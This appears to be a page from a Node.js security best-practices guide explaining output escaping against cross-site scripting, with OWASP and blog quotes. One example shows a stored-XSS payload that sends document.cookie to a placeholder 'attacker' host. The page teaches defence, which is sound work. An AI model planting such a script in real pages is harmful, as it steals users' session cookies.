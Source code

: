 # Escape Output

### One Paragraph Explainer

HTML and other web languages mix content with executable code - a single HTML paragraph might contain a visual representation of data along with JavaScript execution instructions. When rendering HTML or returning data from API, what we believe is a pure content might actually embody JavaScript code that will get interpreted and executed by the browser. This happens, for example, when we render content that was inserted by an attacker to a database - for example `<div><script>//malicious code</script></div>`. This can be mitigated by instructing the browser to treat any chunk of untrusted data as content only and never interpret it - this technique is called escaping. Many npm libraries and HTML templating engines provide escaping capabilities (example: [escape-html](https://github.com/component/escape-html), [node-esapi](https://github.com/ESAPI/node-esapi)). Not only HTML content should be escaped but also CSS and JavaScript

### Code example - Don't put untrusted data into your HTML

```javascript
<script>...NEVER PUT UNTRUSTED DATA HERE...</script>   directly in a script

 <!--...NEVER PUT UNTRUSTED DATA HERE...-->             inside an HTML comment

 <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       in an attribute name

 <NEVER PUT UNTRUSTED DATA HERE... href="/test" />   in a tag name

 <style>...NEVER PUT UNTRUSTED DATA HERE...</style>   directly in CSS

```

### Code example - Malicious content that might be injected into a DB

```javascript
<div>
  <b>A pseudo comment to the a post</b>
  <script>window.location='http://attacker/?cookie='+document.cookie</script>
</div>
```

<br/><br/>

### Blog Quote: "When we don’t want the characters to be interpreted"

From the Blog [benramsey.com](https://benramsey.com/articles/escape-output/)

> Data may leave your application in the form of HTML sent to a Web browser, SQL sent to a database, XML sent to an RSS reader, WML sent to a wireless device, etc. The possibilities are limitless. Each of these has its own set of special characters that are interpreted differently than the rest of the plain text received. Sometimes we want to send these special characters so that they are interpreted (HTML tags sent to a Web browser, for example), while other times (in the case of input from users or some other source), we don’t want the characters to be interpreted, so we need to escape them.

> Escaping is also sometimes referred to as encoding. In short, it is the process of representing data in a way that it will not be executed or interpreted. For example, HTML will render the following text in a Web browser as bold-faced text because the <strong> tags have special meaning:
> <strong>This is bold text.</strong>
> But, suppose I want to render the tags in the browser and avoid their interpretation. Then, I need to escape the angle brackets, which have special meaning in HTML. The following illustrates the escaped HTML:

&lt;strong&gt;This is bold text.&lt;/strong&gt;

<br/><br/>

### Blog Quote: "OWASP recommends using a security-focused encoding library"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "Writing these encoders is not tremendously difficult, but there are quite a few hidden pitfalls. For example, you might be tempted to use some of the escaping shortcuts like \" in JavaScript. However, these values are dangerous and may be misinterpreted by the nested parsers in the browser. You might also forget to escape the escape character, which attackers can use to neutralize your attempts to be safe. **OWASP recommends using a security-focused encoding library to make sure these rules are properly implemented**."

<br/><br/>

### Blog Quote: "You MUST use the escape syntax for the part of the HTML"

From the blog OWASP [XSS (Cross Site Scripting) Prevention Cheat Sheet](<https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>)

> "But HTML entity encoding doesn't work if you're putting untrusted data inside a <script> tag anywhere, or an event handler attribute like onmouseover, or inside CSS, or in a URL. So even if you use an HTML entity encoding method everywhere, you are still most likely vulnerable to XSS. You MUST use the escape syntax for the part of the HTML document you're putting untrusted data into."
